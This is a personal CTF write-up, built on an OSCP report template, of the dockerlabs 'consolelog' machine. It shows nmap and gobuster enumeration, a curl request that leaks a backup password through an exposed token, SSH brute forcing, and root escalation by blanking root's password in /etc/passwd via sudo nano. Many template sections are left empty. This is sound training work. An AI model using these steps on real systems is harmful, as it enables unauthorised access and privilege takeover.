

# consolelog [dockerlabs]

# High-Level Summary

As part of my preparation for the OSCP exam I am playing with ‘consolelog’ machine from dockerlabs.es

The exploitation consisted in brute forcing with a shown password and a hint from the source code; the elevation was possible due a binary that could be ran as SUDO with any user.

## Recommendations

I recommend not exposing passwords even if they are protected by a token, which in this case was given in the source code. Of course exposing the backend files so the files can be read is as well a bad idea. Binaries such as nano should not be possible to be executed as root.

# Methodologies

Scan of ports and directories

Brute force SSH

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the system.

### System IP: 172.17.0.2

### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

| Server IP Address | Ports Open |
| --- | --- |
| 172.17.0.2 | **TCP**: 80,3000,5000 |

```bash
┌──(root㉿kali)-[~/maquinas/consolelog]
└─# nmap -sCV -p80,3000,5000 $target -oN targeted                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 06:25 CET
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds

┌──(root㉿kali)-[~/maquinas/consolelog]
└─# gobuster dir -u http://$target -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backend              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================

```

**Nmap Scan Results:**

From the nmap scan we see that there is an http server running on port 80, Node.js on 3000 and SSH on 5000.

As we have also enumerated the directories we see there are /backend/ and /javascript/ . Upon checking the /backend/ we see there is a file with name ‘server.js’ where it says ‘



It’s clear we have a password that we can use to brutefroce

Some curl Post request to test the application:


```bash
❯ curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
lapassworddebackupmaschingonadetodas                                                                                                             
❯ curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"BADtokentraviesito"}'
Unauthorized
```

SSH Brute force:


**Vulnerability Explanation: A password was exposed via a file and a token, it was used to bruteforce with a list of users.**

**Vulnerability Fix: Don´t expose passwords**

**Severity: CRITICAL**

**Proof of Concept Code Here:**


**Local.txt Proof Screenshot**

**Local.txt Contents**

### Privilege Escalation


*nano can be used as root by everyone without password. There are two ways to exploit this:
1- Modify /etc/passwd with a generated password*

2- 


**Vulnerability Exploited:**


**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

**Proof Screenshot Here:**

**Proof.txt Contents:**

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred, we have administrative access over the system again.
Generated a user and an script to run a revshell.

## House Cleaning

*demo*

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization’s computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, I removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items

## Appendix - Proof and Local Contents:

| IP (Hostname) | Local.txt Contents | Proof.txt Contents |
| --- | --- | --- |
| 192.168.x.x | hash_here | hash_here |
| 192.168.x.x | hash_here | hash_here |
| 192.168.x.x | hash_here | hash_here |
| 192.168.x.x | hash_here | hash_here |
| 192.168.x.x | hash_here | hash_here |

# Nico personal notes - Lesson Learnt

- It’s important to take note of any password, I was obfuscated in trying to exploit an HTTP / Web vulnerability while the access was much easier than that.
- You have a password, try to exploit it.
- How can you play with tokens?

```bash
❯ curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
lapassworddebackupmaschingonadetodas                                                                                                             
❯ curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"BADtokentraviesito"}'
Unauthorized
```

- Leave SSH brute force in the background and try to do other stuff. This one took 5 minutes and it was in local, probably via a VPN it would be more than that
- It’s possible to ‘su root’ by only removing the x from /etc/passwd
- 

```bash
PRE:
lovely@7fb0bfb25b6e:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

After:
root@7fb0bfb25b6e:/home/lovely# head -n 1 /etc/passwd
root::0:0:root:/root:/bin/bash

root@7fb0bfb25b6e:/home/lovely# 

```